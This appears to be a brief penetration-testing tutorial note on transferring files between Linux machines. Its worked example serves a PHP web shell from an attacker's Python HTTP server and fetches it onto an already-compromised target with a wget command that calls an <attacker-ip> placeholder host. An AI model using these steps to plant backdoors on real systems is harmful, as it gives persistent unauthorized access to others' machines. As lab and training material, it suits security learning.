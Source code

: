 
### How to transfer files between two Linux OS ?

1. We need multiple terminals to share files. If we are provided with a single terminal and no GUI, we can use the `tmux` utility to open multiple terminals within one terminal. Refer to [[Command line]] to learn how to use `tmux`. 

2. In our case, we'll be transferring a `PHP` web shell to the target machine which we've already exploited and have command shell access to.  

3. We'll navigate to the `/usr/share/webshells/php` directory and start our Python web server there. 
```
python3 -m http.server 80
```

4. We can download the file in our target system using the `wget` utility. 
```
wget http://<attacker-ip>/php-backdoor.php
```

5. We can confirm that the file has been downloaded successfully using the `ls` command. 